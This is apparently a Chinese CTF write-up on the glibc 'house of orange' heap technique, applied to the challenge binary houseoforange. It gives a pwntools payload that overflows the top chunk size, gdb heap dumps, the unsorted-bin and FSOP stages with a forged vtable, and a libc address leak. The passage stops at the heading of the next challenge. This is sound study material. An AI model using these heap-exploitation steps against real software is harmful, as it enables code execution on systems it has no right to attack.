* 写 `A`，溢出修改 `top_chunk` 的 `size` 为 `0xXYZ`（需要满足页对齐的检测条件）
* 申请一个大于 `0xXYZ` 大小的 `chunk`，此时 `top_chunk` 会进行 `grow`，并**将原来的 `old top_chunk` 释放进入 `unsortedbin`**

**stage2**

* 溢出写 `A`，修改处于 `unsortedbin` 中的 `old top_chunk`，修改其 `size` 为 `0x61`，其 `bk` 为 `&_IO_list_all-0x10`，同时伪造好 `IO_FILE` 结构
* 申请非 `0x60` 大小的 `chunk` 的时候，首先触发 `unsortedbin attack`，将`_IO_list_all` 修改为 `main_arena+88`，然后 `unsortedbin chunk` 会进入到 `smallbin`，大小为 `0x60`；接着遍历 `unsortedbin` 的时候触发了 `malloc_printerr`，然后调用链为： `malloc_printerr -> libc_message -> abort -> _IO_flush_all_lockp`，调用到伪造的 `vtable` 里面的函数指针


## 例题 houseoforange

### 二进制分析

首先是菜单，可以看到题目提供的几个功能

<figure><figcaption></figcaption></figure>

通过build还原一下house的结构体：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

这里虽然检查house数量最大为3，但是注意没有index索引访问house，指针house\_arry始终指向最新的house，也就是说我们在build之后可以通过upgrade来更新house，一共有四次创建的机会和三次修改的机会

回顾使用house of orange进行攻击，第一步：

* 申请 `chunk A`，假设此时的 `top_chunk` 的 `size` 为 `0xWXYZ`
* 写 `A`，溢出修改 `top_chunk` 的 `size` 为 `0xXYZ`（需要满足页对齐的检测条件）
* 申请一个大于 `0xXYZ` 大小的 `chunk`，此时 `top_chunk` 会进行 `grow`，并将原来的 `old top_chunk` 释放进入 `unsortedbin`

所以我们的目标是申请一个house并写这个house的时候溢出修改top\_chunk的size位

首先我们先尝试分配一个堆块并查看此时的top\_chunk size：

<figure><figcaption></figcaption></figure>

````python
```python
build(0x30,'chunk1')  
#修改前内存布局：
#0x561a9ca212b0	0x0000000000000000	0x0000000000000041	........A....... #0x41大小的chunk
#0x561a9ca212c0	0x0000316b6e756863	0x0000000000000000	chunk1.......... #chunk1即name
#0x561a9ca212d0	0x0000000000000000	0x0000000000000000	................ #name部分
#0x561a9ca212e0	0x0000000000000000	0x0000000000000000	................ #name部分
#0x561a9ca212f0	0x0000000000000000	0x0000000000000021	........!....... #0x21大小的chunk
#0x561a9ca21300	0x0000001f00000010	0x0000000000000000	................ #内容部分
#0x561a9ca21310	0x0000000000000000	0x0000000000020cf1	................ <-- Top chunk  
```
````

在upgrade对name进行更新时存在溢出，我们通过upgrade修改name可以覆盖top\_chunk size位，但是按照分析修改这个位置有几个要求：

```
大于MINSIZE(0X10)
小于所需的大小 + MINSIZE
prev inuse位设置为1
old_top + oldsize的值是页对齐的
```

需要页对齐所以选择topchunk的末三位cf1是一个合理的选择

接下来我们就修改这个top chunk，payload构造如下：

````python
```python
payload = b'a'*0x30 +p64(0) + p64(0x21) + b'b'*0x10 + p64(0) + p64(0xcf1)
print(payload)
upgrade(len(payload),payload)
#gdb.attach(p)
#pause()
#修改后内存布局：
#0x562f7e5902b0	0x0000000000000000	0x0000000000000041	........A....... #0x41大小的chunk
#0x562f7e5902c0	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa #b'a'*0x30
#0x562f7e5902d0	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa #b'a'*0x30
#0x562f7e5902e0	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa #b'a'*0x30
#0x562f7e5902f0	0x0000000000000000	0x0000000000000021	........!....... #p64(0) + p64(0x21)
#0x562f7e590300	0x0000001f00000010	0x6262626262626262	........bbbbbbbb #b'b'*0x10
#0x562f7e590310	0x0000000000000000	0x0000000000000cf1	................ # <-- Top chunk #p64(0) + p64(0xcf1)
```
````

<figure><figcaption></figcaption></figure>

然后第二步就是说我们让那个topchunk挂到unsorted bin中，那么我们就需要再次申请一个chunk，大小要大于刚刚的top chunk。但是要注意不能大于malloc的分配阈值，也就是mp\_.mmap\_threshold，否则的话会去调用mmap申请空间，会申请在libc上面。成功将unsorted bin就相当于实现了一次free，这也就是houseoforange中针对没有free函数实现的绕过

<figure><figcaption></figcaption></figure>

<figure><figcaption><p>unsorted bin链表回顾</p></figcaption></figure>

接下来进行libc版本泄露：

因为house of orange第二步要进行FSOP攻击劫持控制流，这首先需要攻击者获知 libc.so 基址，因为\_IO\_list\_all 是作为全局变量储存在 libc.so 中的，不泄漏 libc 基址就不能改写\_IO\_list\_all，也无法得知system函数等地址

泄露libc需要进行unsorted bin攻击：unsortedbin使用双向循环链表，在该链表中必有一个节点（循环链表实际上没有头尾，不准确的说是尾节点）的 `fd` 指针会指向 `main_arena` 结构体内部，将一个 `chunk` 放入 `Unsorted Bin` 中后再打出其 `fd`，对处于链表尾的节点 `show` 就可以获得 `libc` 的基地址了。而`Unsorted Bin` 里面只存在一个 `bin` （就是我们之前放入的top chunk）的时候，该 `bin` 的 `fd` 和 `bk` 都会指向 `main_arena` 中。我们申请一块堆，这块堆会从unsorted bin（之前的top chunk中）进行切割：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

可以看到再我们申请到的这个从unsortedbin中切割的大小为400的块的name字段中，前八位是填充的61，后面8位是指向地址（0x7F6D009CC1E0）这就是我们需要leak的`fd` 指针（指向 `main_arena` 中的一个位置），fd与main\_arena有一个**固定偏移（因不同的 `glibc` 版本而异）**，在调试中我们知道main\_arena地址：0x7F6D009CBBE0，计算`offst = 0xC1E0-0xBBE0=0x600`

```
```


## 例题 bufoverflow\_a


